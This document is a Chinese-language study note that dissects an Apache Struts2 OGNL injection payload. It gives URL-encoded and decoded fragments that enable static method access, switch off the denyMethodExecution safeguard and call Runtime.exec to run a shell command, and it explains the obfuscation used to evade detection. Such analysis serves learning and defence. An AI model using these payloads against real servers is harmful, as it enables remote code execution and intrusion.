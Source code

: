 ![image-20230608151032083](http://cdn.ayusummer233.top/DailyNotes/202309141817673.png)

![image-20230608151317539](http://cdn.ayusummer233.top/DailyNotes/202309141817362.png)

1. 首先通过设置`#_memberAccess['allowStaticMethodAccess']`为`true`来启用静态方法访问。

   `(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true`

   > OGNL 的解析机制比较宽松，不会因为一个表达式的解析失败就停止解析其他表达式。在这个例子中，由于 `('%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)` 并非一个方法，因此后面跟着的 `(vaaa)` 并没有被当作方法参数进行解析。这种特性被用来增加混淆程度，使得这个 payload 更不容易被人类阅读和理解，同时也更不容易被一些自动化的安全检测工具识别。

2. 然后创建一个新的Boolean对象，并将它的值设为`false`，然后将它赋值给`#context['xwork.MethodAccessor.denyMethodExecution']`，以此来禁止Xwork框架阻止方法执行。

   ```java
   (aaaa)(
       (%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)		
       (%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22))
   )
   
   ####
   (aaaa)(     
       ('#context['xwork.MethodAccessor.denyMethodExecution']=#vccc')
       (#vccc=new java.lang.Boolean("false")) 
   )
   ```

   - `(%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)` 这部分的作用是在 OGNL 上下文(context) 中设置 `'xwork.MethodAccessor.denyMethodExecution'` 属性的值为 `#vccc`，其中 `#vccc` 是一个 OGNL 变量。
   - `(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22))` 这部分的作用是设置 `#vccc` 变量的值为 `new Boolean("false")`。实际上，这就相当于将 `'xwork.MethodAccessor.denyMethodExecution'` 的值设置为 `false`。

   这两步操作实际上是绕过了 Struts2 的安全限制。Struts2 通过 `'xwork.MethodAccessor.denyMethodExecution'` 这个属性来阻止 OGNL 表达式调用方法，其默认值为 `true`，即默认禁止调用方法。但是这段 payload 通过设置其值为 `false`，从而允许 OGNL 表达式调用方法，这样就可以通过 OGNL 表达式执行任意 Java 方法，导致远程代码执行漏洞。

   至于前面的 `(aaaa)` 则是一个无效的表达式，和前面提到的 `(vaaa)` 类似，它并没有实际的作用，只是增加了 payload 的混淆程度。

3. 获取到Runtime对象，并将这个对象赋值给`#rt`, 然后通过`#rt`来调用Runtime对象的exec方法，执行系统命令。

   ```java
   (asdf)(
       ('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')
       (%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime())
   )=1
       
   ####
   (asdf)(
       ('#rt.exec("touch@/tmp/success".split("@"))')
       (#rt=@java.lang.Runtime@getRuntime())
   )=1
   ```
